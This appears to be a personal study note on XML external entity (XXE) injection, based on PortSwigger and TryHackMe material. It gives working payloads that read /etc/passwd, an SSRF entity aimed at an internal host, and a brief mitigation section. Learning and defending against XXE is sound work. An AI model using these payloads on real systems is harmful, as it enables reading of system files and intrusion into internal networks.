 # XXE Vulnerablity

XML external entity injection (also known as XXE) is a web security vulnerability that enables an attacker to interfere with the processing of XML data within a web application. XXE vulnerabilities arise due to the XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

## XXE to retrieve files
Portswigger example of stock level in  shopping application:
`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## XXE to SSRF attacks
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

3. Blind XXE to exfiltrate data out-of-band
4. Blind XXE to retrieve data via error messages

## XXE XML Entity injection
See [[XML-Basics]] for more about XML
```xml
<!--Last Line of Request -->

<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)> <!-- REF: (#ANY) instead of (ANY) -->
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 
<xmlEntityInjection>
	<Author>Hacker1</Author> 
	<Subject>&file;</Subject>>
	<Content>LearnDaXMLs3</Content>
</xmlEntityInjection>

<!--Notes -->
<!-- Creates a Header-->
<!-- System call to file variable->
<!-- Prints address file with &file -->
<!-- The two section must connect -->
```
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)

## Mediation

Configuration of a XML interperter disallowing the inclusion of external entities enabling attack against applications that interpret XML language in their parameters. 



## References

[THM Walkthrough Room on XXE CVE-2021-29447](https://tryhackme.com/room/wordpresscve202129447)
[Portswigger](https://portswigger.net/web-security/xxe)
[BrightSec](https://brightsec.com/blog/xxe-attack/)
[OWASP](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
[PayloadsAllTheThings - XXE ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/Files/Classic%20XXE%20-%20etc%20passwd.xml)